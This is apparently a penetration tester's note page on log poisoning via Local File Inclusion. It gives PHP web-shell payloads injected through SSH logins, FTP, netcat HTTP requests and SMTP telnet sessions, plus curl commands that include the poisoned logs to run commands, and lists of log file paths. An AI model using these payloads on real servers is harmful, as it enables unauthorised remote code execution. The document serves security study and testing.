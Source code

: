 #Concept/Web/File_Inclusion/LFI

# Theory

A technique for executing arbitrary commands on a web server. Its usually used in conjunction with other techniques like Local File Inclusion (LFI).

The idea is to manipulate logh files that the server writes, and writes to, and then use other vulnerabilities to exploit these files.

When you want to inject malicious code into these log files, you would typically capture the requests made by the site, and then modify the User-Agent, Referrer or even error messages.

If the webapp is vulnerable to LFI, we can include the log file in the response. Since the injected code is in the log file, it gets executed when the file is processed by the system.

# Testing

Log files may be stored in different locations depending on the operating system/distribution.

## /var/log/auth.log

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

## /var/log/vsftpd.log

When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and sending a payload (depending on which web technology is used).

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```

## /var/log/apache2/access.log

When the web application is using an Apache 2 server, the `access.log` may be accessible using an LFI.

-   About `access.log`: records all requests processed by the server.
-   About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `access.log` path and file depending on the operating system/distribution:

-   RHEL / Red Hat / CentOS / Fedora Linux Apache access file location: `/var/log/httpd/access_log`
-   Debian / Ubuntu Linux Apache access log file location: `/var/log/apache2`/access.log
-   FreeBSD Apache access log file location: `/var/log/httpd-access.log`
-   Windows Apache access log file location: \*\*\*\* `C:\xampp\apache\logs`

Or if the web server is under Nginx :

-   Linux Nginx access log file location: `/var/log/nginx/access.log`
-   Windows Nginx access log file location: `C:\nginx\log`

## /var/log/apache/error.log

This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

-   About `error.log`: records any errors encountered in processing requests.
-   About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `error.log` path and file depending on the operating system/distribution:

-   RHEL / Red Hat / CentOS / Fedora Linux Apache error file location: `/var/log/httpd/error_log`
-   Debian / Ubuntu Linux Apache error log file location: `/var/log/apache2/error.log`
-   FreeBSD Apache error log file location: `/var/log/httpd-error.log`
-   Windows Apache access log file location: \*\*\*\* `C:\xampp\apache\logs`

Or if the web server is under Nginx :

-   Linux Nginx access log file location: `/var/log/nginx`
-   Windows Nginx access log file location: `C:\nginx\log`

# /var/log/mail.log

When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=/var/log/mail.log&cmd=id"
```

# References

https://knowledge.complexsecurity.io/security/logp/
https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning